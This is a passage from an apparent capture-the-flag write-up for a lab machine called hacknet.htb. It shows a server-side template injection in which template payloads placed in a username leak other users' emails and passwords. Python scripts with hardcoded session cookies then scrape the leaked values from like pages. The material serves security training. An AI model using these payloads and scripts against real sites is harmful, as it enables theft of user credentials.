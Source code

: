 ```python
        print(f"Like post {num}, status code: {res2.text}")

if __name__ == "__main__":
    for i in range(1, 101):
        getKey(i)
```

Next, we change our username to the following payload:
```
{{ users.0.email }}
```

Finally, we visit the `/likes/<post_id>` endpoint to check the SSTI payload results. First, we get emails:
```python
import requests
import re

url = "http://hacknet.htb"
cookies = {
    "csrftoken": "gND22sgd7wbhDsX3nJi2VzvgeZO3ys43",
    "sessionid": "axxrdqs5xyzhytt1f2l1ve4bqgh7tbtk"
}
myid = 27
filename = "emails.txt"

profile_pat = re.compile(
    rf'<a\s+href="/profile/{re.escape(str(myid))}"[^>]*>.*?<img[^>]*\btitle="([^"]+)"',
    re.DOTALL | re.IGNORECASE
)


def  getKey(num):
    res1 = requests.get(f"{url}/likes/{num}", cookies=cookies)
    if not res1.status_code == 200:
        print(f"Error getting likes for post {num}")
        return None

    profile_match = profile_pat.search(res1.text)

    return profile_match.group(1) if profile_match else None

if __name__ == "__main__":
    with open(filename, "a") as f:
        for i in range(1, 101):
            key = getKey(i)
            if key:
                f.write(f"{key}\n")
```

Then we change our username to the following payload:
```
{{ users.0.password }}
```
